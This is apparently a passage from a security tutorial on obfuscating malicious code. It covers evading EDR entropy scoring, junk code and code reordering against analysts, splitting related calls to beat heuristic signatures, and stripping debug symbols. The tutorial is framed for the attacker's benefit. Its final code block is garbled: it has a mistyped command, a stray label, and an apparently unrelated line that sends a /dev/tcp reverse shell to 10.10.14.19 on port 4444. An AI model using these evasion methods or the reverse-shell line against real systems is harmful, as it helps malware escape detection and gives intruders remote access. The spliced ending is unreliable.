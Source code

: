 You may notice that some cmdlets and functions are kept in their original state… why is that? Depending on your objectives, you may want to create an application that can still confuse reverse engineers after detection but may not look immediately suspicious. If a malware developer were to obfuscate all cmdlets and functions, it would raise the entropy in both interpreted and compiled languages resulting in higher EDR alert scores. It could also lead to an interpreted snippet appearing suspicious in logs if it is seemingly random or visibly heavily obfuscated.

### Code Structure
Code structure can be a bothersome problem when dealing with all aspects of malicious code that are often overlooked and not easily identified. If not adequately addressed in both interpreted and compiled languages, it can lead to signatures or easier reverse engineering from an analyst.

As covered in the aforementioned taxonomy paper, **junk code** and **reordering code** are both widely used as additional measures to add complexity to an interpreted program. Because the program is not compiled, an analyst has much greater insight into the program, and if not artificially inflated with complexity, they can focus on the exact malicious functions of an application.

Separation of related code can impact both interpreted and compiled languages and result in hidden signatures that may be hard to identify. A heuristic signature engine may determine whether a program is malicious based on the surrounding functions or API calls. To circumvent these signatures, an attacker can randomize the occurrence of related code to fool the engine into believing it is a safe call or function.


### File & Compilation Properties

More minor aspects of a compiled binary, such as the compilation method, may not seem like a critical component, but they can lead to several advantages to assist an analyst. For example, if a program is compiled as a debug build, an analyst can obtain all the available global variables and other program information.

The compiler will include a symbol file when a program is compiled as a debug build. Symbols commonly aid in debugging a binary image and can contain global and local variables, function names, and entry points. Attackers must be aware of these possible problems to ensure proper compilation practices and that no information is leaked to an analyst.

Luckily for attackers, symbol files are easily removed through the compiler or after compilation. To remove symbols from a compiler like **Visual Studio**, we need to change the compilation target from `Debug` to `Release` or use a lighter-weight compiler like **mingw.**

If we need to remove symbols from a pre-compiled image, we can use the command-line utility: `strip`.

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under the **code-element** layer’s **stripping redundant symbols** method.

Below is an example of using strip to remove the symbols from a binary compiled in **gcc** with debugging enabled.

nm cmdshell.exe
strip --strip-all cmdshell.exe
bm cmdshell.exe
exit
(Ubuntu)
python3 enc.py --chain "& /dev/tcp/10.10.14.19/4444 0>&1'\"); ?>"
